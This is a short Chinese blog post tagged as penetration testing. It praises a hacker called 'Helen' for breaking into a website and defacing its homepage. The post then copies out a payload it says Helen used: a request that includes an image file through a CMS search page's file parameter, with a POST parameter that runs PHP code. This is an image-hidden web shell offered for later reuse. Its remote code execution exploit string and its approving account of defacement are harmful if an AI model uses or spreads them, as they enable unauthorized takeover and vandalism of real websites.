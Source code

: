 ```yaml
---
layout: post
title:  "跟着Helen学姿势"
subtitle: 'Helen yyds！'
date:   2021-02-01 18:00:00
tags: 渗透
description: '渗透'
color: 'rgb(255,222,173)'
cover: 'https://a111-1255560786.cos.ap-nanjing.myqcloud.com/0303.jpg'
---
```


## 跟着Helen学姿势
前些去黑客大佬Helen主页发现他又攻陷了一个网站，还把人家的首页都改了，为了防止其他人利用该CMS漏洞获取权限，真的太牛逼啦。  
看了他的博客后发现他自己搭建环境测试后门的图片，赶紧保存下来备用  
```
payload
/search/index.php?file=/view/index/images/meinv.png
Post id2333=phpinfo();
```
![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/03032.png)